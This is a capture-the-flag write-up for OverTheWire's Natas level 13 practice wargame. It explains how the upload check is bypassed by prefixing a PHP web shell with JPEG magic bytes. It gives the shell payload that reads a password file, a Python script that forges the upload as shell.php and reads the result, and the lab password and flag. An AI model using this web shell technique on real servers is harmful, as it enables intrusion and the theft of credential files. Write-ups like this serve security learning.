


# Natas Level 13 Writeup (natas13) – OverTheWire

## Overview

This level focuses on bypassing server-side file validation using magic bytes to upload and execute a malicious file.         
The goal is to find the password for the next level.

## Observation

When we open the page, we see a message:

> **"For security reasons, we now only accept image files!"**  
> **"Choose a JPEG to upload (max 1KB):"**

There is also a link to view the source code:

```
index-source.html
```
The page allows users to upload an image file and displays it.

## Finding the Password

### Using Browser & BurpSuite
1. Open the source code.
2. Open the source code. It shows the `PHP` logic used:
    ```php
    if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    ```
3. The form includes a hidden field:
   ```html
   <input type="hidden" name="filename" value="faeusturjs.jpg" />
   ```
   This means the server trusts client-controlled input for the file extension.
4. Create a PHP payload file that include jpeg magic bytes `FF D8 FF E0`.
    ```php
    aaaa<?php system('cat /etc/natas_webpass/natas13'); ?>
    ```
    - Modify jpeg magic bytes `FF D8 FF E0` using `hexedit` Command Line Tool:
    

5. Upload the file normally and Intercept this request using BurpSuite:
    
    - Modify the `abcd.jpg` with `shell.php` as shown in picture.
6. The file is uploaded as a `abcd.php` file.
7. Access the uploaded file to reveal flag.

#### Proof
```text
The file upload/pug9hxjdng.php has been uploaded
```

### Using Python

```python
import requests, re

session = requests.Session()
base_url = "http://natas13.natas.labs.overthewire.org/"
session.auth = ("natas13", "trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC")

# # step 1: Get source code file
# res = session.get(base_url)
# match = re.search(r'<form(.*?)</div>', res.text, re.DOTALL)
# print(match.group(0))

# # Step 2: Reveal php logic and XOR encryption
# from bs4 import BeautifulSoup  # install with 'pip install bs4'
# url = base_url + "index-source.html"
# res = session.get(url)
# soup = BeautifulSoup(res.text, 'html.parser')
# clean_text = soup.get_text()
# match = re.search(r'<\?(.*?)\?>', clean_text, re.DOTALL)
# print(match.group(1))

# Step 3: Get flag
files = {
    "uploadedfile" : ('shell.php', b"\xFF\xD8\xFF\xE0<?php system('cat /etc/natas_webpass/natas14'); ?>")
}
data = {
    'filename' : "shell.php",
    'MAX_FILE_SIZE' : '1000'
}

res = session.post(base_url, files=files, data=data)
match = re.search(r'<a\Whref=\"(.*?)\"', res.text)
payload = match.group(1)
print("Payload Path: ",payload)

target_url = base_url + payload
print(f'Password for next level is: {session.get(target_url).text}')
```

## Vulnerability

The application validates file type using magic bytes but does not prevent execution of embedded PHP code.

## Flag
`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`